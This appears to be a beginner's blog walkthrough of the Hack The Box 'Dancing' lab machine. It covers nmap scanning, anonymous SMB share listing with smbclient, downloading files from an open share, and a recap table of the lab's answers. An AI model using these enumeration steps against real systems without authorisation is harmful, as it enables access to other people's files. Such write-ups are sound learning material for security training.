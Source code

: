 # 🕺 Dancing | Hack The Box  
Note: I’m not an expert. I’m writing this blog just to document my learning journey. 🚀

---

## 🔧 Step 1: Connect to Hack The Box

First, connect your system to the HTB VPN using the `.ovpn` config file.

```
sudo openvpn htb.ovpn
```

Wait for the message:
`Initialization Sequence Completed`

---

## 🎯 Step 2: Get the Target IP

Click **Spawn Machine** on the HTB site to get the target IP.
Example IP:

```
10.129.22.153
```

---

## 🔍 Step 3: Scan with Nmap

Use Nmap to find open ports and running services:

```
nmap -A 10.129.22.153
```

### Key Results:

- Port 135 – msrpc
- Port 139 – netbios-ssn
- Port 445 – microsoft-ds (SMB)

This confirms SMB is running on the target.

---

## 📦 Step 4: What Is SMB?

**SMB (Server Message Block)** is a protocol used to share files and printers over a network — mostly on Windows systems.

---

## 🧰 Step 5: Install smbclient

`smbclient` lets us access SMB shares from the terminal.

Install it:

```
sudo apt update
sudo apt install smbclient
```

---

## 📂 Step 6: List Available Shares

Use `smbclient` to list the shares:

```
smbclient -L \\\\10.129.22.153\\ -N
```

### Output:

```
ADMIN$
C$
IPC$
WorkShares
```

We’ll explore `WorkShares` — the only one that might be accessible.

---

## 🔓 Step 7: Access WorkShares

```
smbclient \\\\10.129.22.153\\WorkShares -N
```

Then list the contents:

```
ls
```

Output:

```
Amy.J
James.P
```

---

## 📁 Step 8: Explore & Download Files

### 1. Get worknotes from Amy.J

```
cd Amy.J
ls
get worknotes.txt
```

### 2. Get the flag from James.P

```
cd ..
cd James.P
ls
get flag.txt
exit
```

---

## 📜 Step 9: Read the Flag

```
cat flag.txt
```

Output:

```
<FLAG REDACTED>
```

---

## ✅ Recap

| Question                             | Answer               |
| ------------------------------------ | -------------------- |
| What does SMB stand for?             | Server Message Block |
| What port does SMB use?              | 445                  |
| What is the service on port 445?     | microsoft-ds         |
| What flag lists shares in smbclient? | -L                   |
| How many shares are listed?          | 4                    |
| Which share is accessible?           | WorkShares           |
| Command to download a file?          | get                  |
| Final flag?                          | <FLAG REDACTED>      |

---

## 🎉 Conclusion

This box teaches basic SMB enumeration and shows how anonymous access to file shares can lead to information leaks.

Perfect starting point for anyone new to penetration testing.

---
